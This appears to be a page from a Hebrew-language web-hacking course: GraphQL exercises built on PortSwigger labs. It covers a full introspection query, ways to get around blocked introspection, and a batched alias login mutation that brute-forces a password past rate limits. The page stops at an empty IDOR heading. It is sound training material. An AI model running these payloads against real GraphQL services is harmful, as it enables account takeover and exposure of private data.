

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.3 - תקיפת GraphQL/3.3 - תקיפת GraphQL - תרגיל/index.html · generator: mkdocs

# תקיפת GraphQL - תרגיל

## תרגיל 1 - גילוי הסכמה עם Introspection

PortSwigger Lab: **Accessing private GraphQL posts**

### משימות

1. מצאו את ה-endpoint של GraphQL באפליקציה
2. שלחו query introspection מלאה:

```graphql
{
    __schema {
        queryType { name }
        mutationType { name }
        types {
            name
            kind
            fields {
                name
                type { name kind }
                args { name type { name } }
            }
        }
    }
}
```

3. נתחו את הסכמה ומצאו שדות רגישים
4. בנו query שמחלצת את המידע הרגיש
5. השלימו את המעבדה

## תרגיל 2 - bypass Introspection חסומה

PortSwigger Lab: **Finding a hidden GraphQL endpoint**

### משימות

1. גלו שה-endpoint של GraphQL קיים אבל introspection חסום
2. נסו לעקוף את החסימה:
   - שליחה ב-GET במקום POST
   - שינוי שם הquery
   - שימוש ב-`__type` במקום `__schema`
3. השתמשו ב-field suggestions כדי לגלות שדות:

```graphql
{ unknownField123 }
```

4. בנו את הסכמה מתוך ההצעות
5. חלצו את המידע הנדרש

## תרגיל 3 - bypass הגנת Brute Force עם Aliases

PortSwigger Lab: **Bypassing GraphQL brute force protections**

### משימות

1. מצאו את מוטציית ההתחברות ב-GraphQL
2. ודאו שיש הגבלת קצב (rate limiting)
3. בנו query עם aliases לbypass ההגבלה:

```graphql
mutation {
    attempt0: login(input: {username: "carlos", password: "123456"}) { token }
    attempt1: login(input: {username: "carlos", password: "password"}) { token }
    attempt2: login(input: {username: "carlos", password: "admin"}) { token }
}
```

4. כתבו סקריפט שמייצר את הquery מקובץ סיסמאות
5. מצאו את הסיסמה הנכונה והתחברו

## תרגיל 4 - IDOR ב-GraphQL
